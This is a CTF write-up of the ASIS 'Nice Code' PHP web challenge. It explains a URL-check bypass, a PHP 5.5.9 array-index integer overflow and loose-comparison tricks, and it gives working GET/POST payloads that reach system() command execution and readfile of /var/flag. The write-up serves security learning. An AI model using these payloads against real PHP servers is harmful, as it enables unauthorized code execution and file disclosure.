 # Nice Code

> Beautify php code! Here

> [https://ctftime.org/writeup/9910]

When we visit the website and follow the `Get started` link we can see the following message
```
substr($URL, -10) !== '/index.php'
```
When we change URI to `/admin/index.php` we get next message
```
$URL == '/admin/index.php'
```
I tried to bypass it with query string `/admin/index.php?q=index.php` , using double slash `//admin/index.php` and with `/admin/./index.php`, but it didn't work. Finally, i came up with the correct solution `/admin/index.php/index.php`. After visiting this URI I got link to second stage of this challenge [http://167.99.36.112:8080/another/index.php?source](http://167.99.36.112:8080/another/index.php?source). 

Server sends header `X-Powered-By: PHP/5.5.9-1ubuntu4.14` and I knew that array comparison in this PHP version is broken. Index is casted to 32bit integer, so `4294967296` will become `0`, but the problem occurs only in comparison, so b[0] will not equal "admin". Therefore the POST body can look like this
```
b[4294967296]=admin&b[1]=oloco
```
To get code execution we need to guess function name stored in `$k_Jk` and send it via GET. I thought about `call_user_func`, but it didn't work, so I used another PHP 'feature' that 0 equals non-numeric string when `==` is used. We also need to meet other requirements. Our code must be 3rd GET param and `x` param must be longer than 17 chars.
```
?x=17charslongstrings&useless=true&0=var_dump
```
This successfully dumps 0. We can see also that any parameter must be "equal" to function name, so we can send `0=something` instead of `useless=true`.

Unfortunately, there is one more problem. We can't use dots and spaces. Spaces can be replaced by horizontal tab - %09, but I have no idea how to deal with dots. For this reason I used `grep` to dump PHP sources. Unfortunately there wasn't anything interesting there, so the flag could be anywhere. I decided to run `grep -r "ASIS{" /`, but it's an ugly solution.
```
?x=17charslongstrings&0=var&grep%09-r%09&quot;ASIS{&quot;%09/=system
```
The nicer solution would be to `ls` the `/var` directory and notice `flag` file. Then we could just use `readfile`
```
?x=17charslongstrings&0=var&/var/flag=readfile
```

Anyway, it reveals the flag `ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83}` as well as the filename `/var/flag`.